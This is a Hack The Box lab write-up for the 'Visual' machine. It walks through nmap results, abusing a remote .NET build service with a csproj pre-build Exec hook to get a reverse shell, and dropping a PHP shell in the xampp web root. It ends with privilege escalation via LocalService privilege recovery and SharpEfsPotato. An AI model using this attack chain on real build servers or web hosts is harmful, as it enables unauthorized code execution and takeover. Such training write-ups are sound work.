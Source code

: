 ```yaml
---
layout: post_1
title: "Visual - HTB"
date: 2024-02-24
---
```


# HTB Visual Write Up
![HTB Visual](/assets/2024-02-24-visual-htb/machine_info.png "Visual")

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>

```
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Visual - Revolutionizing Visual Studio Builds
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
```

</details>

## Investigation
The only network service to investigate for now is the http.
This service provides a remote .NET 6 compilation, if a git link is provided and the project uses a solution (.sln)
![Http Service](/assets/2024-02-24-visual-htb/http_service.png "Http Service")

### Compilation service
To test this service, first and foremost we must setup a git server.
There are multiple ways of doing it, varying from minimalistic to more complex environments.
The easiest method that we found is to setup a [Gogs Server][gogs-server].
The database was SQLite3 and no SSH Server, this method provies a straight forward installation.
Downloading the pre compiled binaries and running the web server:
`./gogs web`

The setup is the following:
![Gogs setup](/assets/2024-02-24-visual-htb/gogs_setup.png "Gogs setup")

It isn't necessary to setup any administrator.
We will create an account, a repository and clone it to our local machine.

Now we need to create a .NET project. 
```
$ mkdir Test
$ dotnet new console
$ dotnet new solution
$ dotnet sln Test.sln add Test.csproj
```

Finally, testing the project `dotnet run Test.sln`.
Before we push the code, we exclude the obj/ and bin/ with .gitignore. This step is just for good practices
The repository will look like this
![Gogs repository](/assets/2024-02-24-visual-htb/gogs_repository.png "Gogs repository")

Uploading the code through our git link
![Compilation service](/assets/2024-02-24-visual-htb/compilation_service.png "Compilation service")

Waiting for the build to complete
![Waiting to build](/assets/2024-02-24-visual-htb/waiting_to_build.png "Waiting to build")

Build completed and it fails... 
![Build completed](/assets/2024-02-24-visual-htb/build_completed.png "Build completed")

Searching for the error it seems like it has something to do with cache.  
At this point we move on because it's possible to execute pre/post build scripts on a csproj.

```xml
... SNIP ...
<Target Name="Hello" BeforeTargets="BeforeBuild">
    <Exec Command="whoami" />
</Target>
... SNIP ...
```

Using [this one liner reverse shell], encoding with utf16 base64 and setting the command to `powershell.exe -encodedcommand BASE64` we get a reverse shell.  
In case this doesn't work, we can just issue a `ping` command and check on wireshark/tcpdump if we get a ICMP request.

### User enox
Whoami:
```
USER INFORMATION
----------------

User Name   SID
=========== =============================================
visual\enox S-1-5-21-328618757-2344576039-2580610453-1003


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

No interesting privileges, but we are executing on a High Integrity Level environment.
Users on the system:
```
administrator
enox
```

Searching for interesting home files, there were only the flag and the compilation script.
`C:\Users\enox\Documents\compile.ps1`

Looking at the xampp server files we can write into `C:\xampp\htdocs\*`
To execute commands as the xampp user we can create a shell.php file with the same reverse shell as before
```php
<?php
exec('whoami');
?>
```
Executing the reverse shell and we are `nt autority\local services`

### User nt autority\local services
Whoami:
```
USER INFORMATION
----------------

User Name                  SID
========================== ========
nt authority\local service S-1-5-19


GROUP INFORMATION
-----------------

Group Name                             Type             SID                                                                                              Attributes                           
====================================== ================ ================================================================================================ ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                                                                                          
Everyone                               Well-known group S-1-1-0                                                                                          Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                                                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6                                                                                          Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                                                                          Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                                                                         Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                                                                          Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3659434007-2290108278-1125199667-3679670526-1293081662-2164323352-1777701501-2595986263 Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-383293015-3350740429-1839969850-1819881064-1569454686-4198502490-78857879-1413643331    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-2035927579-283314533-3422103930-3587774809-765962649-3034203285-3544878962-607181067    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-11742800-2107441976-3443185924-4134956905-3840447964-3749968454-3843513199-670971053    Mandatory group, Enabled by default, Enabled group
                                       Unknown SID type S-1-5-32-3523901360-1745872541-794127107-675934034-1867954868-1951917511-1111796624-2052600462   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

The privileges are missing, we can't just get administrator straigth forward.  
To fix this we can follow the [itm4n guide][localservice-privileges].  
Then, enabling SeImpersonatePrivileges and using [SharpEfsPotato][sharpefspotato] to get adminstrator.


[gogs-server]: <https://gogs.io/> "Gogs Server"
[ps-shell]: <https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3> "Powershell Reverse"
[localservice-privileges]: <https://itm4n.github.io/localservice-privileges/> "Local Service Privileges"
[sharpefspotato]: <https://github.com/bugch3ck/SharpEfsPotato> "SharpEfsPotato"
